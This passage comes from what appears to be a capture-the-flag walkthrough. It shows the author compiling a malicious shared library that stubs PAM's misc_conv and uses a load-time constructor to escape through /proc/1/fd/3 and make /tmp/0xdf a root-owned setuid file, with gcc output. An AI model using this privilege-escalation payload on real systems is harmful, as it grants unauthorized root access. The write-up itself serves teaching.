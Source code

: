 This time is still missing the version info, but no library is complaining about it’s not being there. There is a symbol look up error for the `misc_conv` function: “undefined symbol: misc\_conv, version LIBPAM\_MISC\_1.0”

#### Add misc\_conv Function

The definition for this function is [here](https://man7.org/linux/man-pages/man3/misc_conv.3.html):

```

       int misc_conv(int num_msg, const struct pam_message **msgm,
                     struct pam_response **response, void *appdata_ptr);

```

I’ll add this to the library, and just have it return 1:

```

#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>

int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
    return 1;
}

static __attribute__ ((constructor)) void init(void) {

    char fn[120] = "/proc/1/fd/3/../../../../../../../../tmp/0xdf";
    char mode[] = "4777";
    int mode_int = strtol(mode, 0, 8);
    chown(fn, 0, 0);
    chmod(fn, mode_int);
}

```

When I compile it, there are warnings for unknown types, but that’s ok:

```

oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
setuidlib.c:5:68: warning: ‘struct pam_response’ declared inside parameter list will not be visible outside of this definition or declaration
    5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
      |                                                                    ^~~~~~~~~~~~
setuidlib.c:5:41: warning: ‘struct pam_message’ declared inside parameter list will not be visible outside of this definition or declaration
    5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
      | 

```
